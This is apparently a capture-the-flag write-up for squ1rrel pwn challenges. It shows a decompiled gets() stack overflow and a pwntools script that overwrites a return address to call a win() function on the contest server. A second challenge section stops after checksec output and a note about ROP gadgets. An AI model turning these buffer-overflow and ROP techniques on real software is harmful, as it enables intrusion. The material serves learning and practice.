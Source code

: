 
1. deja vu
2. jail!
3. squ1rrel-casino

--- 
# deja vu

```bash
[*] '/mnt/d/squ1rrel/deja vu/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Partial RELRO, No canary, No PIE

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[64]; // [rsp+0h] [rbp-40h] BYREF

  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  printf("pwnme: ");
  gets(v4);
  return 0;
}
```

So easy prob. It has `bof` vuln. Even,

```C
int win()
{
  char s[8]; // [rsp+0h] [rbp-70h] BYREF
  __int64 v2; // [rsp+8h] [rbp-68h]
  __int64 v3; // [rsp+10h] [rbp-60h]
  __int64 v4; // [rsp+18h] [rbp-58h]
  __int64 v5; // [rsp+20h] [rbp-50h]
  __int64 v6; // [rsp+28h] [rbp-48h]
  __int64 v7; // [rsp+30h] [rbp-40h]
  __int64 v8; // [rsp+38h] [rbp-38h]
  __int64 v9; // [rsp+40h] [rbp-30h]
  __int64 v10; // [rsp+48h] [rbp-28h]
  __int64 v11; // [rsp+50h] [rbp-20h]
  __int64 v12; // [rsp+58h] [rbp-18h]
  int v13; // [rsp+60h] [rbp-10h]
  FILE *stream; // [rsp+68h] [rbp-8h]

  *(_QWORD *)s = 0LL;
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  v12 = 0LL;
  v13 = 0;
  puts("You got it!!");
  stream = fopen("flag.txt", "r");
  if ( !stream )
    return puts("Error: Could not open flag.txt (create this file for testing)");
  fgets(s, 100, stream);
  printf("%s", s);
  return fclose(stream);
}
```

It has `win` function. Do `Return Address Overwrite`(`RAO?`).

```python
from pwn import *

p = remote('20.84.72.194', 5000)
e = ELF('./prob')

p.sendlineafter(b': ', b'a' * 0x48 + p64(e.sym['win']))
p.interactive()
```

---

# jail!

```bash
[*] '/mnt/d/squ1rrel/jail!/prison'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Partial RELRO, NO PIE

```
prison: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=11861526f4bb256264011fa2e0118c82e3b99e2c, for GNU/Linux 3.2.0, not stripped
```

`statically linked`. So, It has many gadgets like `pop rax, rdi, rsi, rdx` or `syscall` etc..

